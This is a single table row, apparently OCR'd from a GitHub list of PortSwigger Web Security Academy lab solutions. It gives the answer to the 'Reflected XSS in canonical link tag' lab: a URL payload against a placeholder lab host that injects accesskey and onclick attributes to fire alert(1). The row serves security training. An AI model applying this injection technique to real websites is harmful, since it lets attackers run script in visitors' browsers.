|20    |Reflected XSS in canonical link tag                                                                                      |https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |sets the X key as an access key for the whole page. When a user presses the access key, the alert  function is called.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |Practitioner, Reflected XSS                 |